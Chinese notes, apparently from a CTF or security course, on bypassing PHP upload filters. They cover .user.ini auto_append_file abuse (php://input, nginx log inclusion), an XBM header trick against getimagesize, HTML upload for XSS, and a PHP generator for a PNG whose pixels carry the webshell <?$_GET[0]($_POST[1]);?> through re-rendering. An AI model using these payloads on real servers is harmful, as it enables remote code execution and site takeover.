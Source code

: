      自定义配置文件   .htaccess nginx.htaccess
    
     在nginx 下，默认使用.user.ini 配置文件来进行php的配置
    
     使用
    
     auto_append_file=123.txt  来让任意的php文件包含123.txt，执行里面的php代码
    
     疑问：为什么使用.user.ini来自动附加文件的时候，需要一个php文件呢

2 服务端内容检测

不局限检测文件名，还会检测文件的后缀 文件的内容 

<?php system eval $_POST

二分法确定出被检测的关键字，使用替代语法绕过

3 配合伪协议来绕过

auto_append_file=php://input

4 配置日志包含绕过

auto_append_file=/var/log/nginx/access.log


5 上传html来xss 执行跨站脚本


6 getimagesize函数绕过

  getimagesize函数来检测是不是图片，而不采取其他措施的情况下，如果一旦绕过getimagesize函数，就可以实现任意文件上传

  XBM 格式图片 

  #define %s %d 这种形式，就认为时XBM图片的高或者宽

.user.ini

```ini
#define width 100;
#define height 100;
auto_append_file=/var/log/nginx/access.log
```

7 png二次渲染绕过

正常做法：move_uploaded_file 方式移动我们上传的临时文件到上传目录去

二次渲染做法：通过imagepng方法来，来动态依据我们上传的图片的二次生成一个png图片 里面的php代码就会被清洗掉

所以，我们需要使用特殊的方式，来构造我们的图片

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);
$img = imagecreatetruecolor(32, 32);
for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}
imagepng($img,'2.png');  //要修改的图片的路径
/* 木马内容
<?$_GET[0]($_POST[1]);?>
 */
```